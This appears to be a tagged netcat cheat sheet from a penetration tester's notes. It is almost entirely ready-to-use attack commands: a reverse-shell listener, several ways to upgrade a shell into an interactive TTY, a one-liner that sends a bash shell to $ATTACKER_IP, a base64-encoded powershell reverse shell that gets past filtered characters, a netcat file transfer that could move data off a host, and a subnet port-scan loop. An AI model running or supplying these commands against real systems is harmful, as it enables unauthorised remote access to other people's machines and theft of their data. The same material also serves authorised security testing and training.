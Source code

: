 #nc #reverse #listen #ncat #netcat
Open reverse shell listener on port 4444:
----
```bash
nc -nvlp 4444
```
Beautify reverse shell:
---
#rev #shell #rev-shell #beautify #upgrade

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
press Ctrl + Z
```shell
stty raw -echo; fg
```
then
```shell
export TERM=xterm-256color
reset
alias ll='ls -lsa --color=auto'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
stty columns 157 rows 30
```

or if no python present:

```bash
perl -e 'exec "/bin/bash";'
/bin/bash -i
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z
stty raw -echo; fg
stty rows 34 columns 157;export TERM=xterm-256color;alias ll='ls -lsa --color=auto'
```
or
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z
stty raw -echo; fg
stty rows 34 columns 157;export TERM=xterm-256color;alias ll='ls -lsa --color=auto'
```
or
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z;
stty raw -echo; fg;
export SHELL=/bin/bash;export TERM=screen;stty rows 33 columns 156;reset
```
or
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
or
```shell
python -c 'import os; os.system("/bin/bash")'
```

or use:
`https://github.com/brightio/penelope`
Reverse shell from target to attacker
---
#rev-shell #rev #reverse #shell

```bash
nc -e /bin/bash $ATTACKER_IP 4444
```

Create Base64 shell and execute, filtering bad chars:

```bash
echo "powershell -e ";echo -n $REV_SHELL | base64 -w 0
```
Transfer file
---
#nc #file #transfer 

on receiver
```shell
nc -l -p 1234 > out.file
```
on sender
```shell
nc -w 3 $RECEIVER_IP 1234 < out.file
```
Port scanning:
---
#port-scan #scan

```bash
for i in $(seq 1 254); do nc -zv -w 1 $SUBNET.$i $PORT; done
```